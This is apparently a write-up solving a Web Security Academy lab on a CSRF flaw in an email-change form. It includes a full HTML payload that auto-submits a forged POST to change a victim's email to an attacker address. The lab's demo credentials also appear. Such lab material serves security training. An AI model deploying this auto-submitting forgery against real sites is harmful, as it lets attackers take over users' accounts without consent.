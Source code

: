 # Lab: CSRF vulnerability with no defenses
 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

# Solution
We start by logging in with the provided credentials. We are presented with a form for updating the email for the logged in user.  
![](./img/Lab_1_Logged_in.png)


And checking the HTML we can see the action / endpoint used to change the email address.  
![](./img/Lab_1_Form_HTML.png)


Copying the form to our own "site" and adding our evil email to the input field value we can use JavaScript to automatically submit the form as soon as the JavaScript is loaded in the users browser.  
```html
<html>
	<body>
		<form class="login-form" name="change-email-form" action="https://0ad3002e0307a24e80f31ca600b100d1.web-security-academy.net/my-account/change-email" method="POST">
			<label>Email</label>
			<input required type="email" name="email" value="evil@pwned.com">
			<button class='button' type='submit'> Update email </button>
		</form>
		<script>
			document.forms[0].submit()
		</script>
	</body>
</html>
```


Trying the exploit out for our self we can see that the email is changed on our account.  
![](./img/Lab_1_Updated_Mail.png)


Let's change the email (cause only unique emails are allowed) and deliver to victim.  
![](./img/Lab_1_Solved.png)